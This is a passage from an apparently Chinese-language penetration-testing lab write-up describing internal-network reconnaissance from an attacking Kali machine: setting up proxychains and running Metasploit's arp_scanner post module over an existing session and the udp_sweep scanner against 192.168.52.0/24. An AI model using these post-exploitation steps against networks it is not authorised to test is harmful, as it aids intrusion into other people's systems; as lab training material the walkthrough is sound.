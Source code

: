 攻击机 kali 配置客户端代理：

```bash
vim /etc/proxychains4.conf
proxychains4 命令
```

[![](assets/1701827767-3f3cafacdde01650c8d106b7e00965bd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191851-92527dfe-9104-1.png)

## 内网漫游：

### arp 探测内网存活主机

```bash
use post/windows/gather/arp_scanner
set RHOSTS 192.168.52.0/24
set SESSION 1
run
```

[![](assets/1701827767-d05b036186d38cbeaef771b5cf149cbc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191909-9d031ed4-9104-1.png)

### udp 协议发现内网存活主机

```bash
use auxiliary/scanner/discovery/udp_sweep
set RHOSTS 192.168.52.0/24
run
```

[![](assets/1701827767-855d00022f987aa5f35b51f12a50c466.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191931-aa48de6c-9104-1.png)
